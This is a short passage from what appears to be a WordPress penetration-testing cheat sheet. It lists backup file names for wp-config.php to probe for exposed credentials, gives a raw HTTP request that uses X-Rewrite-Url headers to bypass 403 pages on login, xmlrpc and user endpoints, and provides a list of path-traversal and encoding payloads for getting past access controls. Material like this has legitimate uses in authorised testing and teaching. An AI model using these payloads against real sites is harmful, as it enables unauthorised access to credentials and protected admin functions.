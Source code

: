 ```
wp-config.txt
wp-config.html
wp-config.php.bak
wp-config.php.dist
wp-config.php.inc
wp-config.php.old
wp-config.php.save
wp-config.php.swp
wp-config.php.txt
wp-config.php.zip
wp-config.php.html
wp-config.php~
/wp-admin/setup-config.php?step=1
/wp-admin/install.php
```


# Bypass 403

- X-Rewrite-Url Header is Can be used to bypass WordPress 403 pages.
```
POST /xmlrpc HTTP/1.1        
Host: http://target.com
X-Rewrite-Url: xmlrpc.php
X-Rewrite-Url: wp-json/v2/users
X-Rewrite-Url: wp-login.php
```
- Authorization bypass using .json
![image](https://user-images.githubusercontent.com/63053441/137277282-accb1647-a966-4c91-b319-3f29cfc1381c.png)

    Endpoint bypass paylod list:
    ```
    ?
    ??
    &
    #
    %
    %20
    %09
    /
    /..;/
    ../
    ..%2f
    ..:/
    ../
    \..\.\
    .././
    ..%00/
    ..%0d/
    ..%5c
    ..\
    ..%ff
    %2e%2e%2e%2f
    .%2e/
    %3f
    %26
    %23
    .json
    ```
### Tools
https://github.com/yunemse48/403bypasser
https://github.com/iamj0ker/bypass-403
